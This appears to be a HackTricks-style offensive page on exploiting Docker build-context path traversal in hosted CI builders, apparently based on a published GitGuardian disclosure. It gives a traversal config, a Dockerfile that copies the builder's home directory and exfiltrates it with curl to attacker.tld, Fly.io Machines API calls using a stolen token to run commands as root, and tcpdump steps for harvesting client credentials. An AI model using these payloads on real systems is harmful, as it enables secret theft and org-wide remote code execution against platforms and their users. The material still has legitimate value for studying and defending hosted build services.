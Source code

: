 # Abusing Docker Build Context in Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

If a CI/CD platform or hosted builder lets contributors specify the Docker build context path and Dockerfile path, you can often set the context to a parent directory (e.g., "..") and make host files part of the build context. Then, an attacker-controlled Dockerfile can COPY and exfiltrate secrets found in the builder user’s home (for example, ~/.docker/config.json). Stolen registry tokens may also work against the provider’s control-plane APIs, enabling org-wide RCE.

## Attack surface

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
  - build context path (sent to the Docker daemon)
  - Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

If the platform does not canonicalize and restrict the build context, a user can set it to a location outside the repository (path traversal), causing arbitrary host files readable by the build user to become part of the build context and available to COPY in the Dockerfile.

Practical constraints commonly observed:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:

```yaml
runtime: "container"
build:
  dockerfile: "test/Dockerfile"   # Must reside inside the final context
  dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
  type: "http"
  configSchema:
    type: "object"
    properties:
      apiKey:
        type: "string"
    required: ["apiKey"]
  exampleConfig:
    apiKey: "sk-example123"
```

Notes:
- Using ".." often resolves to the builder user’s home (e.g., /home/builder), which typically contains sensitive files.
- Place your Dockerfile under the repo’s directory name (e.g., repo "test" → test/Dockerfile) so it remains within the expanded parent context.

## PoC: Dockerfile to ingest and exfiltrate the host context

```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```

Targets commonly recovered from $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Other cloud/CLI caches and configs (e.g., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: Even with a .dockerignore in the repository, the vulnerable platform-side context selection still governs what gets sent to the daemon. If the platform copies the chosen path to the daemon before evaluating your repo’s .dockerignore, host files may still be exposed.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Some platforms issue a single bearer token usable for both the container registry and the control-plane API. If you exfiltrate a registry token, try it against the provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps?org_slug=smithery"
```

Run a command as root inside any machine of an app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```

Outcome: org-wide remote code execution across all hosted apps where the token holds sufficient privileges.

## Secret theft from compromised hosted services

With exec/RCE on hosted servers, you can harvest client-supplied secrets (API keys, tokens) or mount prompt-injection attacks. Example: install tcpdump and capture HTTP traffic on port 8080 to extract inbound credentials.

```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```

Captured requests often contain client credentials in headers, bodies, or query params.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
